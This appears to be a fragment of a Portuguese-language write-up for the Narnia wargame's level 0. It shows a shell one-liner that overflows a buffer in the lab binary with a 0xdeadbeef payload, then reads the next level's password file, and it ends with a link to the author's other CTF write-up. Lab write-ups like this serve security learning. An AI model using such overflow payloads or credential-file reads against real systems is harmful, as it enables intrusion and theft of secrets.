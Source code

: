```narnia0@melinda:/narnia$ (python -c'print A*20 + \xef\xbe\xad\xde'; python -c 'print cat /etc/narnia_pass/narnia1') | ./narnia0
Ps: se achou essa coisa de buffer overflow legal e quer ler um pouco mais sobre, dá uma sacada no meu <a href="https://brenn0.wordpress.com/2016/10/16/level-1-pwnage-linux-ringzer0team-writeup/">write-up do Level1 de pwnage linux do Ctf do RingZer0team</a>.
